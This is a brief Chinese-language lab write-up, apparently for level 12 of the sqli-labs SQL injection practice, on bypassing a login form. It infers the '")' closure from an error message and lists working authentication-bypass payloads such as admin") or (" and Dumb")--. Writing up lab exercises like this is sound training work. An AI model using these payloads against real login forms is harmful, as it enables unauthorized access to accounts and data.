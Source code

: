 ## Less-12

+ 输入：用户名　`admin`　密码　`admin`

+ `admin' ` 密码：123   没有报错　，没有回显
+ `admin" ` 密码：123   有报错　　　

![](img/less-12.1.png)

+ 通过报错信息，可知　闭合方式　：
　　“）
　　密码位置报错可知闭合方式

+ 注入方式:
　　字符型

+ 注入Payload：　
    ```bash
    admin1")or ("1=1") or ("　　＃返回数组第一行
    admin") or ("　　　　　　　密码任意　　＃万能用户名　
    Dumb") or ("")--  
    Dumb")-- 
    ```